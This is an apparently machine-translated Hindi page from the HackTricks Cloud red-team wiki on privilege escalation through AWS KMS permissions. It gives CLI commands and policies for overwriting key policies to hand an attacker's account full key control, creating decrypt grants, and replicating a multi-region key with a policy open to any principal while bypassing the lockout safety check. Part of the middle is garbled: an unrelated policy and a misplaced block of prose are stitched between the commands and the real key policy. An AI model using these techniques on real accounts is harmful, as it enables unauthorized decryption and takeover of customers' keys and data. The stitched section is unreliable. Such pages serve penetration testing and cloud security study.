 # AWS - KMS Privesc

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
{% endhint %}

## KMS

KMS के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

इन अनुमतियों के साथ, **कुंजी के एक्सेस अनुमतियों को संशोधित करना संभव है** ताकि इसे अन्य खातों या यहां तक कि किसी के द्वारा भी उपयोग किया जा सके:

{% code overflow="wrap" %}
```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```
```markdown
policy.json:
```

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "kms:CreateKey",
                "kms:DescribeKey",
                "kms:EnableKey",
                "kms:ListKeys",
                "kms:ListAliases",
                "kms:ScheduleKeyDeletion",
                "kms:CancelKeyDeletion",
                "kms:PutKeyPolicy",
                "kms:ListKeyPolicies",
                "kms:DescribeKey",
                "kms:EnableKeyRotation",
                "kms:DisableKeyRotation",
                "kms:RevokeGrant",
                "kms:ListGrants",
                "kms:CreateGrant",
                "kms:RetireGrant",
                "kms:ListRetirableGrants"
            ],
            "Resource": "*"
        }
    ]
}
```

```markdown
## KMS CreateKey

यदि आपके पास `kms:CreateKey` अनुमति है, तो आप एक नया KMS कुंजी बना सकते हैं और उस पर पूर्ण नियंत्रण प्राप्त कर सकते हैं। यह आपको अन्य संसाधनों पर हमला करने के लिए इस कुंजी का उपयोग करने की अनुमति देता है।

## KMS PutKeyPolicy

`kms:PutKeyPolicy` अनुमति के साथ, आप किसी मौजूदा कुंजी की नीति को बदल सकते हैं और अपने आप को या किसी अन्य उपयोगकर्ता को उस कुंजी पर पूर्ण नियंत्रण दे सकते हैं।

## KMS ScheduleKeyDeletion

`kms:ScheduleKeyDeletion` अनुमति के साथ, आप किसी कुंजी को हटाने के लिए शेड्यूल कर सकते हैं। यह महत्वपूर्ण डेटा को नष्ट कर सकता है और सेवाओं को बाधित कर सकता है जो उस कुंजी पर निर्भर हैं।

## KMS ListKeys

`kms:ListKeys` अनुमति के साथ, आप खाते में सभी कुंजियों की सूची प्राप्त कर सकते हैं। यह जानकारी आपको अन्य कुंजियों पर हमले की योजना बनाने में मदद कर सकती है।

## KMS ListAliases

`kms:ListAliases` अनुमति के साथ, आप खाते में सभी कुंजियों के उपनामों की सूची प्राप्त कर सकते हैं। यह जानकारी आपको कुंजियों की पहचान करने और उन पर हमले की योजना बनाने में मदद कर सकती है।
```
```json
{
"Version" : "2012-10-17",
"Id" : "key-consolepolicy-3",
"Statement" : [
{
"Sid" : "Enable IAM User Permissions",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<origin_account>:root"
},
"Action" : "kms:*",
"Resource" : "*"
},
{
"Sid" : "Allow all use",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : [ "kms:*" ],
"Resource" : "*"
}
]
}
```
### `kms:CreateGrant`

यह **किसी प्रिंसिपल को KMS कुंजी का उपयोग करने की अनुमति देता है:**
```bash
aws kms create-grant \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
--grantee-principal arn:aws:iam::123456789012:user/exampleUser \
--operations Decrypt
```
{% hint style="warning" %}
एक ग्रांट केवल कुछ प्रकार के ऑपरेशन्स की अनुमति दे सकता है: [https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)
{% endhint %}

{% hint style="warning" %}
ध्यान दें कि ग्रांट जनरेट होने के बाद KMS को **यूजर को की का उपयोग करने की अनुमति देने में कुछ मिनट लग सकते हैं**। एक बार वह समय बीत जाने के बाद, प्रिंसिपल KMS की का उपयोग बिना कुछ निर्दिष्ट किए कर सकता है।\
हालांकि, यदि ग्रांट का तुरंत उपयोग करना आवश्यक है तो [ग्रांट टोकन का उपयोग करें](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token) (निम्नलिखित कोड देखें)।\
[**अधिक जानकारी के लिए इसे पढ़ें**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token)।
{% endhint %}
```bash
# Use the grant token in a request
aws kms generate-data-key \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
–-key-spec AES_256 \
--grant-tokens $token
```
ध्यान दें कि keys के grant को list करना संभव है:
```bash
aws kms list-grants --key-id <value>
```
### `kms:CreateKey`, `kms:ReplicateKey`

इन अनुमतियों के साथ, एक अलग क्षेत्र में एक बहु-क्षेत्र सक्षम KMS कुंजी को एक अलग नीति के साथ प्रतिलिपि बनाना संभव है।

इसलिए, एक हमलावर इसका दुरुपयोग करके कुंजी तक अपनी पहुंच प्राप्त कर सकता है और इसका उपयोग कर सकता है

{% code overflow="wrap" %}
```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% endcode %}

### `kms:Decrypt`

यह अनुमति किसी कुंजी का उपयोग करके कुछ जानकारी को डिक्रिप्ट करने की अनुमति देती है।\
अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-post-exploitation/aws-kms-post-exploitation.md" %}
[aws-kms-post-exploitation.md](../aws-post-exploitation/aws-kms-post-exploitation.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) या **हमें फॉलो करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर।**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
{% endhint %}
